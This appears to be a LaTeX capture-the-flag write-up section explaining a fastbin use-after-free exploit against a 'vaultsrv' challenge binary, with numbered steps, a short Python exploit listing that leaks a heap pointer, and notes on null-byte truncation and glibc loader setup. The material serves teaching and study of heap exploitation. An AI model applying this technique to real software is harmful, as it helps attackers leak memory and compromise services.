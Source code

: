 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Exploit Chain}

\begin{enumerate}
  \item \textbf{Allocate} two fastbin-sized chunks (\texttt{size=0x18}, chunk size \texttt{0x20}):
        \texttt{store(0, 0x18, ...)} and \texttt{store(1, 0x18, ...)}.
  \item \textbf{Free both} in order: \texttt{purge(0)}, then \texttt{purge(1)}.
        The fastbin list becomes: \texttt{Vault1 $\to$ Vault0 $\to$ NULL}.
  \item \textbf{Leak via UAF:} \texttt{inspect(1)} calls \texttt{puts()} on
        Vault 1's freed data. The first 8 bytes now contain the \texttt{fd}
        pointer to Vault 0's \textbf{chunk header}.
  \item \textbf{Compute target:} \texttt{vault0\_data = leaked\_fd + 0x10}
        (chunk header is 16 bytes).
  \item \textbf{Submit:} \texttt{claim(stage=1, value=vault0\_data)}.
\end{enumerate}

\begin{lstlisting}[style=python, caption={Stage 1 exploit (key logic)}]
store_vault(0, 0x18, b'Vault0', b'A'*0x18)
store_vault(1, 0x18, b'Vault1', b'B'*0x18)
purge_vault(0)
purge_vault(1)

leaked = inspect_vault(1)      # UAF: reads fd pointer
leaked_addr = u64(leaked.replace(b'\n',b'').ljust(8, b'\x00'))
vault0_data = leaked_addr + 0x10   # skip chunk header

claim(stage=1, value=vault0_data)
\end{lstlisting}

\subsection{Challenges and Debugging}

\begin{itemize}
  \item \textbf{Null-byte truncation:} \texttt{puts()} stops at \texttt{0x00}
        bytes. Since heap addresses on x86-64 typically start with
        \texttt{0x0000555...}, the two leading null bytes are never printed.
        We pad the received bytes with \texttt{0x00} on the right using
        \texttt{ljust(8, b'\textbackslash x00')} before unpacking.
  \item \textbf{Newline in output:} \texttt{puts()} appends \texttt{0x0a}.
        We strip the trailing newline before parsing.
  \item \textbf{glibc version mismatch:} Running locally required
        \texttt{./ld-2.23.so ./vaultsrv} with \texttt{LD\_LIBRARY\_PATH=.}
        and a correct \texttt{libc.so.6} symlink to avoid
        \texttt{GLIBC\_2.35} version errors.
\end{itemize}
\end{document}
